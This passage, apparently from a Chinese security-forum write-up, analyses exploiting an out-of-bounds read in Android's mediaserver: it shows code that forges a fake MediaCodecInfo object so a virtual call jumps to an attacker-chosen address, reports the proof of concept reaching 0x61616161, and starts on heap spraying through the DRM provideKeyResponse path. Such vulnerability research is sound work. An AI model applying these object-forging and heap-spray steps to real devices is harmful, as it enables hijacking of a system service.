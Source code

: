 梳理一下就是，越界读取的内容放入 R0，然后进行如下操作：

```
refs = [R0 + 4]
if ([refs] == 0x10000000)
    mbase = [refs + 8]
    vtable = [mbase]
    call [vtable + 8]

```

也就是说如果我们在内存中伪造了合适的 MeidaCodecInfo，并且将指向该伪造的 MediaCodecInfo 的指针放入 vector<sp<MediaCodecInfo>> 存储区的后面，这样我们就可以通过越界访问，读取到指向该伪造的 MediaCodecInfo 的指针，进而控制 pc。我们可以在内存中伪造如下的 MediaCodecInfo:

```
//BASEADDR 为假MediaCodecInfo的起始地址
*(BASEADDR) = vtale; //设置MediaCodecInfo vtable 随便填写
*((unsigned int *)BASEADDR + 1) = BASEADDR + 12;     //mRefs, 使他指向BASEADDR + 12
*((unsigned int *)BASEADDR + 3) = 0x10000000;        //mRefs指向此处，即虚假的info->mRefs的起始地址
*((unsigned int *)BASEADDR + 5) = BASEADDR + 0x20;   //info->mRefs->mBase字段，使他指向BASEADDR + 0x20
*((unsigned int*)BASEADDR + 8) = BASEADDR + 0x20 + 4;  //mBase的vtable字段，使他指向BASEADDR + 0x20 + 4
*((unsigned int*)BASEADDR + 11) = 0x61616161;          //vtable + 8, 我们可以在此处放置目标pc

```

最终 poc 运行成功，mediaserver 运行到我们指定的位置：0x61616161

 

![](https://bbs.pediy.com/upload/attach/201805/657395_77DUJ9H7J2HFMFX.jpg)

### 堆喷射的问题

要成功的运行 poc 实现漏洞利用的目的，要进行两次堆喷射，第一次是将我们伪造的 MediaCodecInfo 喷射到内存中，第二次是将我们伪造的 MediaCodecInfo 的地址喷射到 vector<sp<MediaCodecInfo>> 的存储区的后面，这样可以通过越界读取，来触发漏洞。  
但是遇到了如下问题：

 

1. 作者的 poc 中，硬编码了一个地址 0xb3003010，就是在作者的测试机器上，作者喷射的伪造的 MediaCodecInfo 有很大概率会落在这个地址上。作者说之所以是 0xb3003010 而不是 0xb3003000 是因为数据前面还有 0x10 字节的元数据，但是我们知道 jemalloc 中存放数据的 region 和 run 都不包含元数据，那么这个元数据是哪里来的？

 

先看下是如何堆喷射的，作者使用 IDrm.provideKeyResponse 进行堆喷射的，服务端在拿到 response 后，最终会调用 Session.provideKeyResponse 处理：

```
typedef android::KeyedVector,
        android::Vector > KeyMap;
 
status_t Session::provideKeyResponse(const Vector& response) {
    String8 responseString(
    reinterpret_cast(response.array()), response.size());
    KeyMap keys;
 
    Mutex::Autolock lock(mMapLock);
    JsonWebKey parser;
    if (parser.extractKeysFromJsonWebKeySet(responseString, &keys)) {
        for (size_t i = 0; i < keys.size(); ++i) {
            const KeyMap::key_type& keyId = keys.keyAt(i);
            const KeyMap::value_type& key = keys.valueAt(i);
            mKeyMap.add(keyId, key);          //在这里会将payload保存到堆
        }
        return android::OK;
    } else {
        return android::ERROR_DRM_UNKNOWN;
    }
} 
```

